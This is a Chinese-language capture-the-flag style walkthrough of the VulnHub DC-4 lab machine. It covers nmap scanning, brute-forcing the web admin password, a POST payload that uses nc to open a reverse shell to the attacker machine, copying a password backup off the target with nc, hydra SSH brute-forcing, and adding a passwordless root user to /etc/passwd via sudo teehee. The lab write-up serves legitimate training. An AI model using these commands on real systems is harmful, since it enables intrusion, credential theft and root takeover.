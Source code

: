 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC4-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-26
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC4
comment: false
typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-4,313/>

**DESCRIPTION**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

只有一个flag

## 0x02 信息收集

靶机使用vmware部署，NAT模式

nmap扫描网段

```
nmap -sP 192.168.190.0/24
```

![image-20210926153642099](/assets/img/image-20210926153642099.png)

发现靶机IP：192.168.190.139，继续扫描

```
nmap -T5 -A -v -p- 192.168.190.139
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 14:27 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating ARP Ping Scan at 14:27
Scanning 192.168.190.139 [1 port]
Completed ARP Ping Scan at 14:27, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:27
Completed Parallel DNS resolution of 1 host. at 14:27, 0.00s elapsed
Initiating SYN Stealth Scan at 14:27
Scanning 192.168.190.139 [65535 ports]
Discovered open port 80/tcp on 192.168.190.139
Discovered open port 22/tcp on 192.168.190.139
Completed SYN Stealth Scan at 14:27, 1.00s elapsed (65535 total ports)
Initiating Service scan at 14:27
Scanning 2 services on 192.168.190.139
Completed Service scan at 14:27, 6.02s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.190.139
NSE: Script scanning 192.168.190.139.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.11s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Nmap scan report for 192.168.190.139
Host is up (0.00045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:B3:F5:3B (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.838 days (since Thu Mar 11 18:21:01 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms 192.168.190.139

NSE: Script Post-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，登陆后只有一个登录界面，未发现其他公开的CMS或组件

![image-20210926153952656](/assets/img/image-20210926153952656.png)

## 0x03 渗透

尝试使用burpsuite进行web爆破，根据系统名包含admin，指定用户名admin，先爆破密码

![image-20210926154453036](/assets/img/image-20210926154453036.png)

爆破发现admin密码happy

使用admin登录后，发现web提供了执行命令的功能，需要执行的命令通过post参数传递

![image-20210926154602455](/assets/img/image-20210926154602455.png)

使用nc回弹shell，kali执行

```
nc -lvp 4444 
```

使用hackbar发送post参数`radio=nc 192.168.190.129 4444 -e /bin/bash&submit=Run`，获得反弹shell

![image-20210926154739554](/assets/img/image-20210926154739554.png)

执行命令获取方便观察的shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x04 提权

查看/etc/passwd，发现几个用户，去home下查看，只有jim下存在文件，backups下有一个old-passwds.bak文件，mbox文件无权限，test.sh没什么用处

使用nc获取old-passwds.bak文件

```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

然后使用old-passwords.bak文件对jim进行爆破

```
hydra -l jim -P old-passwords.bak -vV 192.168.190.139 ssh
```

爆破成功得到密码：

![image-20210926160224587](/assets/img/image-20210926160224587.png)

登录jim后发现mbox下内容：

![image-20210926160501768](/assets/img/image-20210926160501768.png)

似乎是一个邮件，在/var/mail/jim中发现邮件内容：

![image-20210926160535935](/assets/img/image-20210926160535935.png)

得到charles密码

登录charles，执行`sudo -l`发现charly可以执行teehee，可以将标准输入复制到我们选择的文件中

创建一个拥有root权限的账号

```bash
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
su test
whoami
```

在/root/下找到flag

![image-20210926160832848](/assets/img/image-20210926160832848.png)



